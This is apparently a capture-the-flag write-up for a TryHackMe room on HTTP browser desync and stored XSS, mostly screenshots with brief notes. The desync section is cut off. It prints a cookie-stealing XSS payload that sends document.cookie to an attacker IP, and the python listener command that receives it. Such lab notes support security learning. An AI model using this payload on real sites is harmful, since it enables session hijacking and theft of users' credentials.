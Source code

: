 # Summary
- link https://tryhackme.com/room/requestsmugglingbrowserdesync
- skills required XSS, python, javascript, HTTP browser desync
- additional readings: https://portswigger.net/research/browser-powered-desync-attacks

# Write-up to get the flag (not the right way)
- to confirm vulnerability on HTTP Browser Desync, connection was checked to be keep-alive.
<img width="861" height="629" alt="Screenshot from 2025-10-03 10-00-24" src="https://github.com/user-attachments/assets/a8f71f80-b033-4a4a-a3f1-6f34b2229f3a" />
- to combine with XSS there need to be a point to inject XSS. This page didn't allow sign up or login. The link 'Help' is for a Contact Us page.
- A simple payload was tested but wasn't executed.
  <img width="861" height="629" alt="image" src="https://github.com/user-attachments/assets/aa6a25fb-014d-40f6-b816-1ff3e528998c" />
- to check if the XSS is executed in the backend I tried another payload
  <img width="861" height="629" alt="Screenshot from 2025-10-03 10-12-29" src="https://github.com/user-attachments/assets/db8a9b0f-5e9b-44a6-bfbb-f6f07ef24ad1" />
- It worked. Then there is nothing stopping us to simply using the message field to carry out a XSS attack.
  <img width="1601" height="539" alt="Screenshot from 2025-10-03 10-14-59" src="https://github.com/user-attachments/assets/b23d6e19-b671-455d-b532-887d716a27d4" />
- the new payload is <img src=x onerror="new Image().src='http://10.11.139.184:4440/?='+document.cookie;">. again in attack bow fire up python3 -m http.server 4440
- Flag obtained.
  <img width="1585" height="614" alt="image" src="https://github.com/user-attachments/assets/6590398c-1bff-4cb1-b53f-d818836ae7bc" />

# Write-up to get the flag (HTTP Browser Desync)
- OK. We are having a stored XSS and keep-alive connect. We can move on to test if the site is vulunable to HTTP Browser Desync attack.
- 
